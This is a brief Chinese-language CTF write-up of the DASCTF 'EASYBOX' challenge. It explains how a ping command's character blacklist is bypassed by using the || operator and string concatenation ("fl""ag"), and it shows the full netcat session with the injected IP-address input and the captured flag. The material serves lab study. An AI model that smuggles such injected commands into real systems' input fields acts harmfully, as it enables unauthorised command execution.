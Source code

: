 ```yaml
---
title: DASCTF月赛 - EASYBOX
date: 2023/12/3 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过拼接字符串绕过限制，利用grep获取flag并查看result.txt。
---
```


From CBCTF x DASCTF

## 文件分析

下载`easybox`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

pingCommand虽然ban了很多字符，但是我们仍可以通过拼接字符串来绕过sh, cat和flag

通过||操作符忽略错误继续执行；  
先ls /bin看看有什么可以利用的程序，发现有grep；  
grep同样可以打印文件；  
"fl""ag"可以把flag拼起来；  
最后用catCommand查看`result.txt`就可以了

## EXPLOIT

```
nc node4.buuoj.cn 26927
 _____    _    ______   ______   _____  __
| ____|  / \  / ___\ \ / / __ ) / _ \ \/ /
|  _|   / _ \ \___ \\ V /|  _ \| | | \  /
| |___ / ___ \ ___) || | | |_) | |_| /  \
|_____/_/   \_\____/ |_| |____/ \___/_/\_\
Canary value saved to canary.txt.
Welcome to the EASYBOX
Please enter your name: yes
Hello! yes
yes@EASYBOX:/home/ctf$ PING
Enter an IP address: ||grep -i f "fl""ag"
sh: 1: ping: not found
Ping result has been saved in /tmp/result.txt
yes@EASYBOX:/home/ctf$ CAT
Enter the filename to view: result.txt
DASCTF{faf97940-0fc1-40af-a539-2ac02898e155}

yes@EASYBOX:/home/ctf$ EXIT
Exiting the program...
```

Done.
